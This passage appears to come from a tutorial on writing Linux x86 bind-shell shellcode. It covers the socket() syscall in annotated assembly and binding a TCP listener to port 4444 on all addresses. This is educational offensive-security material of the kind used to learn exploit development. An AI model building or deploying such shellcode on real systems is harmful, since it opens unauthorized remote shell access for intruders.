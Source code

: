 {%highlight asm%}
; Creating the socket.
;
; int socket(int domain, int type, int protocol);
;
; socket() is defined as #define __NR_socket 359 on /usr/include/i386-linux-gnu/asm/unistd_32.h
; AF_INET is defined as 2 in /usr/include/i386-linux-gnu/bits/socket.h
; SOCK_STREAM is defined as 1 in /usr/include/i386-linux-gnu/bits/socket_type.h

; Zero-ing main registers

xor eax, eax
mov ebx, eax
mov ecx, eax
mov edx, eax

mov ax, 0x167 ; 359 in decimal
mov bl, 0x2
mov cl, 0x1

int 0x80      ; sfd = socket(AF_INET, SOCK_STREAM, 0);
mov ebx, eax  ; storing the socket descriptor into EBX for next syscall

{% endhighlight %}

Most of other system calls will have the socket descriptor as the first argument.
So it can be a wise decision to save the socket return value into EBX register,
so we don't need to use the stack to retrieve everytime that value.

### bind()

The opened socket will be bound to TCP port 4444 as default value, 0x5c11. The
system call bind(), as the second parameter, has a pointer to a (struct sockaddr)
data structure. In case of TCP communications, the structure to be used is
(struct sockaddr_in) that it is equal in size but with some fields useful for
TCP/IP sockets.

As we can see from the following code snippet, we say again the socket family
is an Internet IPv4 socket and that the process must bind itself on every
available IP address, e.g. 0.0.0.0 and the port should be 4444, written in
network byte order.

Intel X86 processors work in little-endian order, so with the least significant
bytes on the right of the registers, meanwhile network byte order stores values
with the least significant bytes on the left. htons() makes this translation
for us in C. In assembler, we must do this on our own.

Please note that, in order to have the port number easily configurable, we
created a python script changing the assembly value, managing endianess on an
higher level.

{% highlight c %}
memset(&my_addr, 0, sizeof(struct sockaddr));

my_addr.sin_family 	= AF_INET;
my_addr.sin_port 	= htons(DPORT);
my_addr.sin_addr.s_addr = INADDR_ANY;
{% endhighlight %}
